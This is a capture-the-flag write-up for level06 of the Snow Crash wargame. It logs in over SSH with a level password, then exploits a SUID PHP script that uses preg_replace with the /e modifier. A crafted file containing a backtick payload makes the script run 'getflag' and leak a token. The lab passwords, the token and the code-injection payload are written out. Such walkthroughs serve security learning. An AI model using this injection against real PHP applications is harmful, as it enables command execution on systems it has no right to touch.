 Login as `level06`.
```shell
┌──$ [~/42/2020/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level06
level06@192.168.1.64's password: viuaaale9huek52boumoomioc
```
A PHP script and an `SUID` executable are located in home directory.
```shell
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ echo 'Hello World!' > /tmp/hello
level06@SnowCrash:~$ ./level06 /tmp/hello
Hello World!
```
`file_get_contents` - reads entire file into a string.

`preg_replace` - usage together with the `/e` modifier was quite common among PHP-based scripts, apps and interfaces until few years ago.

It is possible to execute shell in PHP with backticks.


By using variable variables[¹](https://www.php.net/manual/en/language.variables.variable.php), an error can be generated which will show the flag.
```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag06
level06@SnowCrash:~$ ./level06 /tmp/flag06
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
PHP evaluated `getflag` and then tried to print variable. But as it was undefined it show an error.
